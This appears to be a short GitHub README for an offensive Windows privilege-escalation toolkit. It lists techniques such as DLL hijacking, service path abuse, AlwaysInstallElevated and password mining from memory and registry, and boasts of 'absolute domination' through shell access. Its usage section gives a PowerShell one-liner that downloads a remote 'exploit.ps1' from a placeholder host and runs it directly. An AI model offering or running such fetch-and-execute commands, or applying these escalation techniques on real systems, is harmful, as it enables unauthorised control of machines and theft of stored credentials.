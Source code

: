 
# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

